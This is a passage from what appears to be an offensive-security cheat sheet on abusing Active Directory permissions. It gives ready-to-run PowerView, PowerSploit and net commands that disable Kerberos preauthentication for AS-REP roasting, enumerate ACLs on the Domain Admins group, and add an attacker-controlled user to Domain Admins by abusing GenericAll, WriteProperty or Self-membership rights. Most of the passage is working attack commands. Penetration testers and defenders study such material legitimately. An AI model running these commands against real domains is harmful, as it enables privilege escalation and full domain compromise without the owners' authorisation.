 - **Targeted ASREPRoasting**: You could make the user **ASREPRoastable** by **disabling** **preauthentication** and then ASREProast it.

```
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

##### Generic All on Group

Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`

```
Get-NetGroup "domain admins" -FullData

// Then check for weak permissions
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}

//After we found our user has GenericAll rights on the group
net group "domain admins" spotless /add /domain

// Same could be achieved with Active Directory or PowerSploit module

# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

##### GenericAll / GenericWrite on Computer

If you have these privileges on a **Computer object**, you can pull kerberos Resource-based Constrained Delegation

##### WriteProperty on Group

```
// check for weak permissions
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentifyReference -eq "OFFENSE\spotless"}

// After find our user has writeproperty on domain admins group
// We can again add ourselves to the `Domain Admins` group and escalate privileges
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

##### Self (Self-Membership) on Group

```
// check for weak permissions
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentifyReference -eq "OFFENSE\spotless"}

// After find our user has SelfMembership on admins group
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```
